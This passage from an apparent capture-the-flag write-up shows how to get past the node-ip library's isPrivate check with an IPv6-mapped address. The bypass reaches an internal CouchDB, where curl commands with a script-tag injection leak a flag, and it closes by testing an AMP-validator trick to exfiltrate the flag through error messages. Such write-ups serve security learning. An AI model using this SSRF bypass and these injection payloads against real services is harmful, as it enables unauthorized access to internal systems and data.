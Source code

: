 Check `isPrivate` first, it [implemented as](https://github.com/indutny/node-ip/blob/master/lib/ip.js#L302):
```javascript
ip.isPrivate = function(addr) {
  return /^(::f{4}:)?10\.([0-9]{1,3})\.([0-9]{1,3})\.([0-9]{1,3})$/i
      .test(addr) ||
    /^(::f{4}:)?192\.168\.([0-9]{1,3})\.([0-9]{1,3})$/i.test(addr) ||
    /^(::f{4}:)?172\.(1[6-9]|2\d|30|31)\.([0-9]{1,3})\.([0-9]{1,3})$/i
      .test(addr) ||
    /^(::f{4}:)?127\.([0-9]{1,3})\.([0-9]{1,3})\.([0-9]{1,3})$/i.test(addr) ||
    /^(::f{4}:)?169\.254\.([0-9]{1,3})\.([0-9]{1,3})$/i.test(addr) ||
    /^f[cd][0-9a-f]{2}:/i.test(addr) ||
    /^fe80:/i.test(addr) ||
    /^::1$/.test(addr) ||
    /^::$/.test(addr);
};
```

It's not hard to bypass, the simplest way is using the long integer representation of IPv4 address. But Nodejs `new URL()` will standardize IP, for example, `http://0` -> `http://0.0.0.0`. So it restricts lots of ways. I used `http://[::ffff:ac1e:0103]` to bypass.


### Part 2.2

You can request CouchDB now, but you can't get the response because it will be validated before screenshot.

You can add a `<script>` tag in response to bypass the `BONUS LIMIT: Only one <script> tag is allowed`:
```bash
/app # curl http://a08f8e0260c64418510cefb2b06eee5cd:bbb@[::ffff:ac1e:0103]:5984/a08f8e0260c64418510cefb2b06eee5cd/_find -XPOST -HContent-Type:application/json -d'{"selector":{},"use_index":["<script>"]}'
{"docs":[
{"_id":"flag","_rev":"1-25c34c2f8c6567927ede3f02a9ab121b","flag":"flag{123456}"}
],
"bookmark": "g1AAAAA4eJzLYWBgYMpgSmHgKy5JLCrJTq2MT8lPzkzJBYqzpOUkpoPkOGBycNEsALDID_E",
"warning": "_design/<script> was not used because it does not contain a valid index for this query.\nNo matching index found, create an index to optimize query time."}
```

That's useless, it still only returns error messages. I think it's impossible to get a JSON pass the AMP validation, but we can embed the flag in the error message if we can add something before the flag.

Test this:
```html
<script></script><meta '"FLAG{{{{12345}}}">
```

The validator will return
```html
Mustache template syntax in attribute name '"flag{{{{12345}}}"' in tag 'meta name= and content='.
```
